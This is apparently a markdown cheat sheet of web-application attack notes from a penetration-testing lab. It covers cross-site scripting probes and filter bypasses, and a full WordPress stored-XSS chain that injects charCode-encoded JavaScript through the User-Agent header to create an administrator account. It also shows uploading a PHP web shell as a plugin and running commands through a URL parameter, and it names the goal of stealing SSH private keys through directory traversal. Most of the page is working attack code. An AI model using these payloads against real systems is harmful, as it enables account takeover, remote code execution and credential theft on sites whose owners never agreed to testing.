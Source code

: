 # Web application attack  
- **Cross-site scripting**
  - ⚠️ **Goal: steal cookies, CSRF admin request**  
  - Inspect: search boxes, comment fields, username/password, contact form, URL param, HTTP headers (referer, user-agent) 
  - Check how values rfected without proper sanitization
    ```
    <script>alert(1)</script>  
    "><script>alert(1)</script>  #inside-html tag
    " onmouseover=alert(1) x=" #inside attribute
    ';alert(1);// #inside JS

    #bypass
    &lt;script&gt;alert(1)&lt;/script&gt;
    <ScRiPt>alert(1)</sCrIpT>
    <img src=x onerror=alert(1)>
    %3Cscript%3Ealert(1)%3C/script%3E
    ```
  - Input accepts unsanitized input < > ' " { } ;  
  - Fuzz: `wfuzz -w payloads/xss.txt -d "name=FUZZ&msg=test" http://target.com/contact.php` 
  - Testing vulnerability by using payload: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc
  - Create new user and privilege via XSS (user-agent vulnerable field)  
    1. run this function and get the encoded js
       ```
         function encode_to_javascript(string) {
              var input = string
              var output = '';
              for(pos = 0; pos < input.length; pos++) {
                  output += input.charCodeAt(pos);
                  if(pos != (input.length - 1)) {
                      output += ",";
                  }
              }
              return output;
          }
          
        let encoded = encode_to_javascript('var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);')
        console.log(encoded)
       ```
    2. Intercept the burp request GET / and modify the user-agent    
       `<script>eval(String.fromCharCode(118,97,114,32,97,106,97,....))</script>`
    3. Login to wp-admin/admin.php > Visitors plugin  
    4. Go to users menu and new user "attacker" created  
  - Embeds a web shell in wordpress plugin and RCE command from url  
    ```
    https://github.com/jckhmr/simpletools/blob/master/wonderfulwebshell/wonderfulwebshell.php
    nano webshell.php
    zip webshell.zip webshell.php
    Upload plugin.zip and activate
    http://offsecwp/wp-content/plugins/mylovelywebshell/webshell.php/?cmd=find%20/%20-name%20flag%202%3E/dev/null: find flag
    http://offsecwp/wp-content/plugins/mylovelywebshell/webshell.php/?cmd=cat%20/tmp/flag
    ```
- **Directory traversal**
  - ⚠️ **Goal: access credentials/store ssh private key by using relative paths**  